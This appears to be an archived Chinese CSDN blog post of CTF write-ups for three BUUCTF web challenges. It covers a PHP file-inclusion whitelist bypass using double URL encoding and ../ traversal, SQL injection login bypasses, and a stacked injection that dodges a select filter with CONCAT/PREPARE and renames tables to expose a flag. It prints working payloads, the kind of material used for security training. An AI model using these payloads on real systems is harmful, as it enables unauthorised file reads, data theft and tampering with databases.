

<!--yml
category: 未分类
date: 2022-04-26 14:50:31
-->

# 【CTF日记】BUUOJ篇_ch3uhx9的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_45969062/article/details/114683113](https://blog.csdn.net/qq_45969062/article/details/114683113)

# [HCTF 2018]WarmUp

## 题目介绍

*   这道题来自`BUUCTF`，[传送门](https://buuoj.cn/challenges#%5BHCTF%202018%5DWarmUp)。
*   涉及的知识点包括：

## 题目代码

```
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }  
?> 
```

## 函数解析

*   [isset](https://www.php.net/manual/zh/function.isset.php) ( [mixed](https://www.php.net/manual/zh/language.types.declarations.php#language.types.declarations.mixed) `$var` , [mixed](https://www.php.net/manual/zh/language.types.declarations.php#language.types.declarations.mixed) `$...` = ? ) : bool
*   [is_string](https://www.php.net/manual/zh/function.is-string.php) ( [mixed](https://www.php.net/manual/zh/language.types.declarations.php#language.types.declarations.mixed) `$var` ) : bool
*   [in_array](https://www.php.net/manual/zh/function.in-array.php) ( [mixed](https://www.php.net/manual/zh/language.types.declarations.php#language.types.declarations.mixed) `$needle` , array `$haystack` , bool `$strict` = **`false`** ) : bool
    *   检查数组`haystack`中是否存在某个值`needle`。
    *   若数组为键值数组，则匹配值。
*   [mb_substr](https://www.php.net/manual/zh/function.mb-substr.php) ( string `$str` , int `$start` , int `$length` = NULL , string `$encoding` = mb_internal_encoding() ) : string
    *   根据字符数执行一个多字节安全的 [substr()](https://www.php.net/manual/zh/function.substr.php) 操作。
    *   取字符串`str`从`start`开始`length`长度的子串。
*   [mb_strpos](https://www.php.net/manual/zh/function.mb-strpos.php) ( string `$haystack` , string `$needle` , int `$offset` = 0 , string `$encoding` = mb_internal_encoding() ) : int
    *   查找字符串`needle`在字符串`haystack`中首次出现的位置。
*   [urldecode](https://www.php.net/manual/zh/function.urldecode.php) ( string `$str` ) : string
*   [include](https://www.php.net/manual/zh/function.include.php)

## 代码逻辑

### 主函数

*   第`40`行的`if`语句判断了
    *   提交的参数`file`是否为空；
    *   参数`file`是否为字符串；
    *   函数`checkFile`是否返回`true`。
*   上述条件满足就将`file`对应的文件打开，不满足则显示<font>滑稽</font>。


### checkFile函数

*   在第`5`行中将参数`file`赋值给变量`page`。
*   第`7`行给出白名单，分别是`source.php`、`hint.php`。
*   第`8`行判断变量`page`是否已设置为字符串，若没有，则<font>滑稽</font>伺候。
*   第`13`行<font>第一次</font>判断`page`是否属于白名单，若是则包含文件。
*   第`17`行裁剪原始变量`page`，`_page`留下第一个`?`之前的字符串。
*   第`22`行<font>第二次</font>判断`page`是否属于白名单。
*   第`26`行对变量`page`进行`URL`编码的解码，赋值给`_page`。

> 注意：`page`取自`URL`，作为参数传入会先进行一次解码。

*   第`27`行裁剪解码后的变量`_page`。
*   第`32`行<font>第三次</font>判断`_page`是否属于白名单。

### hint.php

```
flag not here, and flag in ffffllllaaaagggg 
```

## 解题过程

*   在上述我<font>标红</font>的三次判断中，可以设置不同状态的`page`得到文件包含。
*   <font>第一次</font>判断时，对变量`page`没有做任何改变，满足条件只有参数`file`（原始传入的`page`）为`source.php`或`hint.php`，很明显无法包含文件`ffffllllaaaagggg`。
*   <font>第二次</font>判断时，考虑到裁剪之后需要满足`?`前包含`source.php`或`hint.php`，之后的部分可以任意修改。

> 包含`？`后就已经绕过了第一个判断。

*   尝试包含到文件`ffffllllaaaagggg`，在`?`之后不断添加访问上级目录符号`../`，例如。

```
source.php?../../ffffllllaaaagggg 
```



```
? => %3f => %253f 
```

*   使用`%253f`替换`?`位置之后，传入服务器时变成`%3f`，此时即可绕过前两次判断。
*   在<font>第三次</font>判断前，`urldecode()`将`%3f`转化为`?`，完成判断。
*   给出<font>第三次</font>判断的`Payload`。

```
source.php%253f../../../../../../../../ffffllllaaaagggg 
```

# [极客大挑战 2019]EazySQL

## 题目介绍

*   这道题来自`BUUCTF`，[传送门](https://buuoj.cn/challenges#%5B%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019%5DEasySQL)。
*   涉及的知识点包括：

## 题目解析


*   此时你输入的字符串将被用于数据库查询对应的用户，通过这样的机制，即可构造`SQL`注入攻击。

> `SQL`注入具体知识参考我的一篇[博客](https://cheuhxg.github.io/2021/01/31/SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/)。

## 解题过程

*   观察攻击场景，通常来说用户名和密码都为字符串输入，故此处猜测为字符型注入。
*   假设查询语句模型。

```
SELECT * FROM user WHERE user_id='${User-Name}' and passwd='${User-Passwd}'; 
```

*   尝试使用注释`#`屏蔽后面代码，下面给出用户名和密码的`Payload`。

```
' or 1=1 
```


*   若注释符被屏蔽，使用`'`构造查询字符串闭合，给出`Payload`。

```
' or '1'='1 
```

# [强网杯 2019]随便注

## 题目介绍

## 题目解析

*   开题一个注，剩下全靠试。
*   尝试默认的`1`输入后，出现一个数组列表。

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
} 
```

*   发现除了`1`还有`hahahah`，这里是`PHP`将查询结果返回的数据组织格式，意味着`1`的查询对应`hahahah`的输出。
*   `'`作为输入，得到报错信息。

```
error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1 
```

*   说明在这个`'`之外还有两个单引号，此处为字符型注入。
*   使用万能钥匙`' or '1'='1`输入得到可查询的内容。

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

array(2) {
  [0]=>
  string(1) "2"
  [1]=>
  string(12) "miaomiaomiao"
}

array(2) {
  [0]=>
  string(6) "114514"
  [1]=>
  string(2) "ys"
} 
```

*   上述键值对对我们的分析没有什么帮助，说明该查询不会查询到`flag`，尝试通过联合注入获得。
*   输入`1' order by 2#`得到响应，说明查询参数有两个。
*   使用参数位置查看当前数据库`1' union select 1,database();#`，发现`select`被正则过滤。

```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject); 
```

## 解题过程

*   相当于联合注入被屏蔽了，不过可以尝试堆叠注入，使用`';show databases;`得到输出。

```
array(1) {
  [0]=>
  string(11) "ctftraining"
}

array(1) {
  [0]=>
  string(18) "information_schema"
}

array(1) {
  [0]=>
  string(5) "mysql"
}

array(1) {
  [0]=>
  string(18) "performance_schema"
}

array(1) {
  [0]=>
  string(9) "supersqli"
}

array(1) {
  [0]=>
  string(4) "test"
} 
```

*   此处我查看了三个可疑的数据库，最后找到`supersqli`中有个表叫做`1919810931114514`，查看列名后发现有个列名就是`flag`。

```
 ';use supersqli;show columns from `1919810931114514`; 
```

```
array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
} 
```

> 其实当前数据库就是`supersqli`，直接`show tables`就能看到这个表。
> 
> 这里是~~小丑本丑~~走了弯路了。

*   可惜的是，之前万能钥匙查询没有出`flag`信息，说明注入框对应查询的数据表不是`1919810931114514`。

## 解题方法

*   此时的目的就是<font>跨表查询</font>，在网上一番查找后，找到了两个比较合适的方法，分别会给出来源链接。
*   <font>第一个</font>方法使用[预编译的方法](https://zhuanlan.zhihu.com/p/78989602)，即组装语句后预编译，对编译好的语句可以直接执行，这样就能绕过`select`的过滤了。

> [SET](https://www.cnblogs.com/wtsgtc/p/10387007.html) @`var` = `expr` 将变量`var`设置为表达式`expr`的值。
> 
> `CONCAT()`实现对字符串的拼接，可实现`select`的过滤。
> 
> [PREPARE](https://www.cnblogs.com/geaozhang/p/9891338.html) `stmt` FROM `preparable_stmt`将变量`preparable_stmt`赋值给预编译语句`stmt`。
> 
> EXECUTE `stmt`执行`stmt`语句所代表的语义。

*   使用`CONCAT`将`select`分开绕过过滤，设置代换语句变量，最后构造得到`Payload`。

```
';SET @sql = CONCAT('SEL','ECT * FROM `1919810931114514`;');PREPARE stmt FROM @sql;EXECUTE stmt; 
```

```
array(1) {
  [0]=>
  string(42) "flag{b6ecc82a-c36c-49ed-929e-caad898b3d1e}"
} 
```

*   <font>第二个</font>方法是将两个[表列名互换](https://www.cnblogs.com/peri0d/p/12123814.html)，查询语句不变的情况下，会直接查询`words`表中内容。

> [RENAME](https://dev.mysql.com/doc/refman/8.0/en/rename-table.html) TABLE `tbl_name` TO `new_tbl_name` 将表`tbl_name`的名字改成`new_tbl_name`。

*   由于注入框的查询是对列`id`的搜索，此时参考两个表的列名，需要将`flag`列名改为能够查找的`id`列（修改包括名称和数据类型）。

```
ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL; 
```

> 具体为什么修改为`CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL`就是数据库数据类型的问题了。

```
';RENAME TABLE `words` TO `word`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;SHOW columns FROM words; 
```

*   到这里我们的表列名就已经修改完毕，此时还会输出修改完成的`words`列名，最后通过万能钥匙`1' or '1'='1`即可得到输出。

```
array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
} 
```